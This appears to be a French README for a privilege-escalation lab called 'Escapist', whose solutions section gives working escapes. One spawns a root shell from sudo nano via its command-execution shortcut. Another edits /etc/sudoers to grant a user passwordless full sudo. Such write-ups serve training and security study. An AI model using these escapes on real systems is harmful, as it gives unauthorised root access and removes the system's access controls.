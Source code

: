 # Escapist

Pour lancer le premier challenge : sudo ./Challenge*numéro*.sh

L'objectif est de réussir à exécuter le binaire "escape" dans chaque épreuve









# Solution

Challenge 1 : nice bin/escape 

Challenge 2 : sudo /usr/bin/nano readme \
	      ctrl+r ctrl+x \
	      reset; bash 1>&0 2>&0 \
	      puis exécuter bin/escape

OU sudo /usr/bin/nano /etc/sudoers et modifier : PrivEscape ALL=(ALL) NOPASSWD:ALL puis exécuter bin/escape
